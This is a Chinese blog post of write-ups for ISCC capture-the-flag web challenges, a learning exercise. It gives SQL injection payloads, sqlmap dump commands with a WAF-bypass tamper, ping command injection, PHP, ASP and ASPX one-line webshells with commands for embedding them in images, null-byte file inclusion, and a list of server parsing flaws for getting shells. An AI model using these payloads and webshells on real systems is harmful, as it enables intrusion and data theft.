





## 开始

## 一直不知道从哪里开始的开始
标题写了好久，可是一直都是空的，那就从最近做的iscc的web题开始写起吧。

### flag in flag
题目描述：

```
flag in flag
150

不同用户有着不同的权限，也许flag用户能够知道真正的flag内容，但他的密码很复杂呢……对了，如果情况不对，赶紧重置数据库后闪人啊。
```

打开页面是一个表单，有一个重置数据库的链接，点击之后显示数据库已重置，还提供了表单页面的源码。




页面源码：

```php
<html>
<head>
Masel's secure site
</head>
<body>

<a href="setup-db.php">重置数据库</a>

<?php
include("auth.php");
$servername = $host;
$username = $dbuser;
$password = $dbpass;
$database = $dbname;

error_reporting(0);
if($_POST["user"] && $_POST["pass"]) {
    $conn = mysqli_connect($servername, $username, $password, $database);
    if ($conn->connect_error) {
        die("Connection failed: " . mysqli_error($conn));
}
$user = $_POST["user"];
$pass = $_POST["pass"];

$sql = "select user from user where pw='$pass'";
//echo $sql;
$query = mysqli_query($conn,$sql);
if (!$query) {
    printf("Error: %s\n", mysqli_error($conn));
    exit();
}
$row = mysqli_fetch_array($query);
//echo $row["pw"];
if ($row[user]){
    if ($row[user] == "flag" && $user=="flag") {
        echo "<p>Logged in! Flag: ****************** </p>";
    }
    else{
        echo "<p>Password is right, but it's not for the flag </p>";
    }
}
else {
    echo("<p>Wrong password!</p>");
  }
}

?>


<form method=post action=index.php>
<input type=text name=user value="Username">
<input type=password name=pass value="Password">
<input type=submit>
</form>
</body>
<a href="index.php.txt">Source</a>
</html>
```

>little hint: 看这里的源码链接是index.php.txt ，看来出题人喜欢把源码加上后缀名txt放在网站上。

显然是一个 sql 注入的题目，根据题目使用万能密码 ` user=flag , pass=' or 1=1 # `,在 burpsuite 中抓包的内容是 `user=flag&pass=%27+or+1%3D1+%23` 返回值 `Password is right, but it's not for the flag` 。

再次查看源码，发现题目中的 `$row = mysqli_fetch_array($query);` 这一句，说明每次从数据库中只取第一行数据返回，那么就有可能第一行返回的时间不是我们要的 flag 用户。

试着让返回数据分组一下，按照第一列分组，虽然一般第一列都是 id ，但是我们这里还是写作 ` group by 1 `，那么提交的数据就是 `user=flag , pass=' or 1=1 group by 1 #` , 在 burpsuite 中抓包的结果是 `user=flag&pass=1%27+or+1%3D1+group+by+1+%23` ， 成功返回 flag 。

其实根据同样的思路，也可以用 `order by 1`， 请求数据 `user=flag , pass=' or 1=1 order by 1 #` , 在 burpsuite 中抓包结果是 `user=flag&pass=%27+or+1%3D1+order+by+1+%23+` , 也能够得到 flag 。

在 MySQL 中的注释，除了有 `#` 之外，还可以是 `--  ` ，后面有几个空格或 tab ,虽然双横线也能注释，但是#号的使用效果好一些，有的地方双横线并不能注释#号确可以。

除了万能密码之外，其实还能够直接将密码注出来，构造 payload 为`user=flag&pass=' or updatexml(1,concat(0x7e,(select pw from user limit 1,1 )),0) # '`，可以直接将 flag 用户的密码注出来，返回值为 `Error: XPATH syntax error: '~*75DBBA7B5806E761411'` ， flag 用户的密码为 `*75DBBA7B5806E761411` ，即可用此密码登陆，得到 flag 。

或者，直接上 sqlmap ，虽然有点大材小用，但是是可以的。对了，为了防止被封 ip ，最好使用举办方提供的 ss 来进行注入。

第一步跑数据库

```
./sqlmap.py -u "http://101.200.145.44/web1/" --data "user=sss&pass=sss" --proxy=socks5://127.0.0.1:1080 --dbs
```

返回两个数据库

```
[00:53:53] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.7, PHP 5.5.9
back-end DBMS: MySQL 5.0
[00:53:53] [INFO] fetching database names
[00:53:53] [INFO] the SQL query used returns 2 entries
[00:53:53] [INFO] retrieved: information_schema
[00:53:53] [INFO] retrieved: web1
available databases [2]:
[*] information_schema
[*] web1
```

返回了不少有效信息，可以看出来是 MySQL 数据库，有两个 databases ，那我们来查看一下 web1 里有几个表单。

```
./sqlmap.py -u "http://101.200.145.44/web1/" --data "user=sss&pass=sss" –dbms "MySQL" --proxy=socks5://127.0.0.1:1080 -D "web1" --tables
```

```
Database: web1
[1 table]
+------+
| user |
+------+
```

只有一个表单就是 user ，那么看来就是这个了，我们来看一下这个表单的列。

```
./sqlmap.py -u "http://101.200.145.44/web1/" --data "user=sss&pass=sss" –dbms "MySQL" --proxy=socks5://127.0.0.1:1080 -D "web1" -T "user" --columns
```

```
Database: web1
Table: user
[3 columns]
+--------+-------------+
| Column | Type        |
+--------+-------------+
| user   | varchar(20) |
| id     | int(3)      |
| pw     | varchar(20) |
+--------+-------------+
```

好吧，只有三列，那么最后一步，就是我们要注入出表单的内容了。

```
./sqlmap.py -u "http://101.200.145.44/web1/" --data "user=sss&pass=sss" –dbms "MySQL" --proxy=socks5://127.0.0.1:1080 -D "web1" -T "user" --dump-all
```

```
Database: web1
Table: user
[2 entries]
+----+----------------------+--------+
| id | pw                   | user   |
+----+----------------------+--------+
| 1  | user                 | user   |
| 2  | *75DBBA7B5806E761411 | flag   |
+----+----------------------+--------+
```

成功注出密码，与我们之前得到的密码一致。使用密码登陆即可得到 flag ，最终结果为 `Logged in! Flag: 5a2f5d8f-58fa-481b-a19f-9aab97ba6a4b`

### PING出事了吧
题目描述：

```
PING出事了吧
300

我刚做了一个Ping命令的小工具，快来试一下吧
```

打开页面，试验了一下确实能够 ping 到，开始我以为是 dvwa 里的命令执行漏洞，因为那个刚好也是用 ping 来做示例。



但是这个明显比 dvwa 里的那个要高端多了，只要输入的值不是正确的ip地址都会报错，看来正则匹配的很严格吖。

想到上一题的源码，猜测会不会也悄悄的隐藏了源码在网站下，打开 index.php.txt，果然源码。

```php
<?php
header("Content-type: text/html; charset=utf-8");
?>
<html>
<head>
<title></title>
</head>
<body>
<div align="center">
    <h1 al>我刚做了一个ping命令的小工具，快试一下吧！</h1>

    <div >
        <p>请输入目标IP</p>
        <form name="ping" action="index.php" method="post">
            <input type="text" name="ip" size="30">
            <input type="submit" value="submit" name="submit">
        </form>
    </div>
<div>
</body>
</html>
<?php
if( isset( $_POST[ 'submit' ] ) ) {

    $target = $_REQUEST[ 'ip' ];
    $len = strlen($target);
    $i = 0;
    $wrong = 0;
    $pattern='/^[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}(([&]{2}|[;|])dir[\sa-zA-Z0-9]*)?$/';
    if(!preg_match($pattern, $target)){
        $wrong=1;
    }
    if($wrong == 0 && $len > 0)
    {
        // Determine OS and execute the ping command.
        if (stristr(php_uname('s'), 'Windows NT')) {

            $cmd = shell_exec( 'ping  ' . $target );
            echo '<pre>'.iconv('GB2312', 'UTF-8',$cmd).'</pre>';

        } else
        {
            $cmd = shell_exec( 'ping  -c 3 ' . $target );
            echo '<pre>'.iconv('GB2312', 'UTF-8',$cmd).'</pre>';
        }
    }
    else
        echo "输入格式不正确！";
}
if( isset($_GET['file']))
{
    include($_GET['file']);
}
?>
```

既然有了源码就简单的多了， 果然正则匹配过滤的很严格，不过却单独放出来了一个 `dir` 是什么鬼，之前试过了 `ls,ll,ifconfig` 等等命令都被过滤掉，原来是 `dir` ，这才知道 `dir` 是 linux 和 windows 下通用的。

那就用 dir 看一下网站目录，有一个文件名其长无比的文件夹，进去看一下，发现 `flag.txt` , 一开始还以为继续用 dir 查看文件内容，突然想到可以用浏览器直接查看的，得到 flag 。

构造 `playload=127.0.0.1|dir` ，得到网站根目录文件 `1C9976C230DA289C1C359CD2A7C02D48  index.php  index.php.txt`

继续查看文件夹，构造 `playload=127.0.0.1|dir 1C9976C230DA289C1C359CD2A7C02D48` ，看到 `flag.php`

在浏览器中访问 `http://101.200.145.44/web2/1C9976C230DA289C1C359CD2A7C02D48/flag.php` ,得到 flag ,` flag{0d143dcd-5b29-4f4f-9b16-73665aeb45a8}`

或者是另一个思路，看源代码，发现文件包含漏洞，访问 `http://101.200.145.44/web2/index.php?file=./1C9976C230DA289C1C359CD2A7C02D48/flag.php` ,结果坑爹的这个也会得到一个 flag ，不过是错的，真正的flag需要直接访问得到。

#### ctf 中的源码

一般在 ctf 的题目中有很多的都喜欢把源码提供给你，一般比如说 `index.php.txt` 或者 `index.php.bak` 或者 `.index.php.swp` ,或者 `index.php~` 等等可能就是暗藏源码的地方 。

### simple injection
题目描述：

```
simple injection
350

小明老板经常嫌弃小明太懒了，这次老板给了小明一个简单的问题，解决不了就要被炒鱿鱼喽~
```



题目都提示了 sql 注入，用 sqlmap 跑一跑，但是因为这个站用了 WAF ，需要在 sqlmap 中使用一个过 WAF 的脚本才能注入。

注数据库

```
./sqlmap.py -u "http://101.200.145.44/web6/login.php" --data "username=sss&password=sss" --proxy=socks5://127.0.0.1:1080 --tamper "space2mssqlhash.py" --dbs
```

```
[01:21:32] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.7, PHP 5.5.9
back-end DBMS: MySQL 5.0.11
[01:21:32] [INFO] fetching database names
[01:21:32] [INFO] fetching number of databases
[01:21:32] [INFO] resumed: 2
[01:21:32] [INFO] resumed: information_schema
[01:21:32] [INFO] resumed: injection
available databases [2]:
[*] information_schema
[*] injection
```

还是 MySQL 数据库，依然两个 database ，肯定是注入 injection ，继续注表。

```
./sqlmap.py -u "http://101.200.145.44/web6/login.php" --data "username=sss&password=sss" --proxy=socks5://127.0.0.1:1080 --tamper "space2mssqlhash.py" -D "injection"  --tables
```

```
Database: injection
[1 table]
+-------+
| admin |
+-------+
```

只有一个表，那我们这次就直接注内容好了。

```
./sqlmap.py -u "http://101.200.145.44/web6/login.php" --data "username=sss&password=sss" --proxy=socks5://127.0.0.1:1080 --tamper "space2mssqlhash.py" -D "injection"  -T "admin" --dump-all
```

```
Database: injection
Table: admin
[1 entry]
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
| 1  | admin    | fef0b74e182f540724e23a83ed92b847 |
+----+----------+----------------------------------+
```

注出来是 md5 加密过的，sqlmap 还自带一些密码本，可以帮忙做一些简单爆破，可惜这个没有爆破出来，最后在网上找了一个 md5 解密网站破解出来，解密结果为 `yinquesiting` ，即为 flag 。


### double kill
题目描述：

```
double kill
350

"没有什么防护是一个漏洞解决不了的，如果有，那
就.....
"
```

根据题目提示的意思应该是要有两个漏洞，看站点提供了上传通道那就应该有，再看网站链接长成这样 `http://101.200.145.44/web5/index.php?page=submit`，估计就是文件包含漏洞了。



文件上传过滤的挺死的，后台验证，只允许是 jpg 或者 png 格式的图片，那就将 一句话木马写入到图片中再上传上去好了。

一句话木马中不能含有 php 标签，只能使用这句。

```
<script language="php">@eval($_POST['pass']);</script>
```

附带中国菜刀一句话连接木马大全

```
PHP : <?php @eval($_POST['pass']);?>
ASP : <%eval request("pass")%>
ASPX:<%@ Page Language="Jscript" %><%eval(Request.Item["pass"],"unsafe");%>
```

在 linux 下可以使用 `echo -n "<script language='php'>@eval($_POST['pass']);</script>">>1.gif` 来把一句话木马加入到图片的后面，在 windows 下可以用 ` copy 1.gif /b + 1.php /a 2.gif ` 来将 gif 文件与 php 文件合并。

然后就可以将文件木马上传上去，查看图片，记下文件位置，即可 url 中使用文件包含漏洞来查看上传的木马图片，在木马图片 url 的最后需要使用 `%00` 截断符截断，访问 `http://101.200.145.44/web5/index.php?page=uploads/1464138923.gif%00` 。


得到 flag ，`flag{e34349fe-42f4-4d78-b221-48094fe2b2af}`


### 糊涂的小明
题目描述：

```
糊涂的小明
500

小明入侵了一台web服务器并上传了一句话木马，但是，管理员修补了漏洞，更改了权限。更重要的是：他忘记了木马的密码！你能帮助他夺回控制权限吗？
```

太难不会，等大神的 writeup 。

还没有等到 web 500的 writeup ，不过好像这道提题用到了一个经典的 MySQL 漏洞，MySQL 长字符截断。

#### MySQL 长字符截断

在 MySQL 的设置里有一个 `sql_mode` 选项，当其值为默认设置 空 而不是 `STRICT_ALL_TABLES` 时，MySQL 对插入超长的值只会提示 warning ，而不是 error ，这样就可能导致一些截断问题。

创建一个如下的表单测试，结构如下 ( MySQL 5.5.49 ) ：

```sql
CREATE TABLE user(
    id int(11) PRIMARY KEY AUTO_INCREMENT,
    username varchar(20) ,
    password varchar(40)
);
```

首先来插入正常的数据。

```sql
mysql> INSERT INTO user(username,password) VALUES('admin','password');
Query OK, 1 row affected (0.10 sec)
```

正常执行。成功插入，无警告，无报错。

现在插入异常的数据，username 的长度远超过规定长度。

```sql
mysql> INSERT INTO user(username,password) VALUES('admin                                          ','admin');
Query OK, 1 row affected, 1 warning (0.11 sec)
```

正常执行。竟然也成功插入了，虽然有一个警告。

我们来看一下现在的数据库。

```
mysql> SELECT * FROM user;
+----+----------------------+----------+
| id | username             | password |
+----+----------------------+----------+
|  1 | admin                | password |
|  2 | admin                | admin    |
+----+----------------------+----------+
2 rows in set (0.00 sec)

mysql> SELECT length(username) FROM user;
+------------------+
| length(username) |
+------------------+
|                5 |
|               20 |
+------------------+
2 rows in set (0.00 sec)

```

数据库确实有两个数据，虽然用户名那一栏还是可以显示出用户名的长度不一样，但是当我们看一下进行查询操作的时候会发生什么。

```
mysql> SELECT * FROM user WHERE username='admin';
+----+----------------------+----------+
| id | username             | password |
+----+----------------------+----------+
|  1 | admin                | password |
|  2 | admin                | admin    |
+----+----------------------+----------+
2 rows in set (0.00 sec)

```

可怕，直接搜查 admin 用户，虽然用户名的长度不一致，但是把第二个用户名的数据也找出来了，这样就可能伪造管理员账户登陆。

解决方案：在 MySQL 的配置文件 `/etc/mysql/my.cnf` 中的 `[mysqld]` 中加上 sql_mode='NO_ENGINE_SUBSTITUTION,STRICT_TRANS_TABLES',还有就是在前端限定字符长度，后端检查字符串长度

#### SQLmap 常用参数
在第三题用到了神器 SQLmap ，简单的记录一下常用选项。

|参数                         |含义                     |
|--------                   |           -------     |
|--dbs                      |扫描所有的数据库|
|--tables                    |列出数据库所有的表信息|
|--columns              |列出数据库表中的所有字段信息|
|--current-db               |列出当前的数据库名称|
|--users                        |数据库管理用户|
|--privileges                   |数据库管理员权限|
|--passwords                |列举并破解数据库用户的 hash 密码|
|--roles                        |  枚举数据库管理员|
|--dump                     |列举数据库中表的内容|
|--dump-all                 |列所有表的内容|
|--exclude-sysdbs               |列举用户数据库的表内容|
|--common-tables              |暴力破解表|

#### 图片木马
在第四题中用到了图片木马，发现平常用到图片木马的机会还是挺多的，不过图片木马直接上传到站点也没用，需要将其解析执行，而这就需要一个服务器解析漏洞了，常见的解析漏洞有以下一些。

##### 一、IIS 5.x/6.0解析漏洞
IIS 6.0解析利用方法有两种
1.目录解析
/xx.asp/xx.jpg

2.文件解析
wooyun.asp;.jpg

第一种，在网站下建立文件夹的名字为 .asp、.asa 的文件夹，其目录内的任何扩展名的文件都被IIS当作asp文件来解析并执行。

例如创建目录 wooyun.asp，那么
/wooyun.asp/1.jpg

将被当作asp文件来执行。假设黑阔可以控制上传文件夹路径,就可以不管你上传后你的图片改不改名都能拿shell了。
第二种，在IIS6.0下，分号后面的不被解析，也就是说
wooyun.asp;.jpg

会被服务器看成是wooyun.asp还有IIS6.0 默认的可执行文件除了asp还包含这三种
/wooyun.asa
/wooyun.cer
/wooyun.cdx

二、IIS 7.0/IIS 7.5/ Nginx <8.03畸形解析漏洞
Nginx解析漏洞这个伟大的漏洞是我国安全组织80sec发现的…
在默认Fast-CGI开启状况下,黑阔上传一个名字为wooyun.jpg，内容为
<?PHP fputs(fopen('shell.php','w'),'<?php eval($_POST[cmd])?>');?>

的文件，然后访问wooyun.jpg/.php,在这个目录下就会生成一句话木马 shell.php

三、Nginx <8.03 空字节代码执行漏洞
影响版:0.5.,0.6., 0.7 <= 0.7.65, 0.8 <= 0.8.37
Nginx在图片中嵌入PHP代码然后通过访问
xxx.jpg%00.php

来执行其中的代码

四、Apache解析漏洞
Apache 是从右到左开始判断解析,如果为不可识别解析,就再往左判断.
比如 wooyun.php.owf.rar “.owf”和”.rar” 这两种后缀是apache不可识别解析,apache就会把wooyun.php.owf.rar解析成php.
如何判断是不是合法的后缀就是这个漏洞的利用关键,测试时可以尝试上传一个wooyun.php.rara.jpg.png…（把你知道的常见后缀都写上…）去测试是否是合法后缀

五、其他
在windows环境下，xx.jpg[空格] 或xx.jpg. 这两类文件都是不允许存在的，若这样命名，windows会默认除去空格或点,黑客可以通过抓包，在文件名后加一个空格或者点绕过黑名单.若上传成功，空格和点都会被windows自动消除,这样也可以getshell。
如果在Apache中.htaccess可被执行.且可被上传.那可以尝试在.htaccess中写入:
<FilesMatch "wooyun.jpg"> SetHandler application/x-httpd-php </FilesMatch>

然后再上传shell.jpg的木马, 这样shell.jpg就可解析为php文件
